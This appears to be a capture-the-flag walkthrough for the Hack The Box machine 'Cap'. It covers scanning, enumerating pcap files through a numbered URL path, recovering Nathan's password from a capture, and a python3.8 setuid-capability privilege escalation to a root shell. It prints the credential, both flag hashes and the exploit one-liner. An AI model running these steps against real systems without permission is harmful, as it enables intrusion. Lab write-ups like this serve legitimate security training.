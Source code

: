 # CAP <br>
## IP 10.10.10.245 <br>
## Difficulty Easy

Added the IP in /etc/hosts with cap.htb.
Scanned the IP with rustscan and got 3 open ports: 21, 22, 80.
Started a gobuster scan on the IP and also started manual enumeration on the website.
It was already logged in as Nathan user.

In the webiste, in the /data/ directory, I saw some packet capture file and it was in /1.
I found something fishy here. Started a burpsuite intruder attack on the /1 parameter and found that there are 2 more pages /0 and /3.

I opened the 0.pcap in wireshark and found the password for the Nathan user.

```
Nathan:Buck3tH4TF0RM3!
```

Logged into ssh using these credentials and got user.txt

```
005a89726f40707eca7ceb244b283cb4
```

My first thought was since the name of machine was cap, it might have some capability vulnerability.

```
getcap -r / 2>/dev/null
```

This showed that python3.8 has setuid capability set.

To exploit this:

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Got root shell and root.txt

```
d707599a6d4346be8c1b4983fd1ccbe9
```
